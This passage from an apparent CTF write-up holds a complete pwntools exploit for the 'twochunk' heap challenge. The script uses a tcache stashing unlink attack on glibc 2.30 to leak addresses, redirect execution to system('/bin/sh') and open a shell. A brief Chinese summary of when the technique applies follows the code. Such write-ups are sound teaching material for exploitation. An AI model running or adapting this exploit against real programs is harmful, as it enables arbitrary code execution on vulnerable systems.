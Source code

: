 ```python
	cmd(idx)
	p.sendafter(": ",c)
def msg(c):
	cmd(6)
	p.sendafter(": ",c)
#p=remote("121.36.209.145",9999)
p=process('./twochunk')
libc=ELF("/lib/x86_64-linux-gnu/libc-2.30.so")
p.sendafter(": ",flat(0x23333000,0x23333020))
p.sendafter(": ","1"*0x40)
for x in range(7):
    add(0,0x188)
    free(0)
for x in range(5):
    add(0,0x88)
    free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
free(0)
add(0,23333)
show(0)
heap=u64(p.read(8))
log.warning(hex(heap))
pay='\0'*0xf8+flat(0x91,heap+0xf0,0x23333000-0x10)
edit(0,pay)
add(1,0x88)
cmd(5)
p.readuntil("age:")
base=u64(p.read(6)+'\0\0')-(0xfff7fbfc6020-0x7ffff7dd5000)
log.warning(hex(base))
cmd(6)
libc.address=base
p.sendafter(": ",flat(libc.sym['system'],0,0,0,0,0,libc.search("/bin/sh").next()))
#gdb.attach(p,'''
#''')
cmd(7)
p.interactive()
```
# summary
了解了很多新版glibc.感谢师傅们的题目!
`tcache stashing unlink atk`利用场景
1. calloc+限量 malloc
2. calloc 大小不能为fastbin
3. 可以unsortedbin atk 就unsortedbin atk 不可以就smallbin atk
4. 如果已知地址有edit机会就可以unlink去获得该区域.


[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io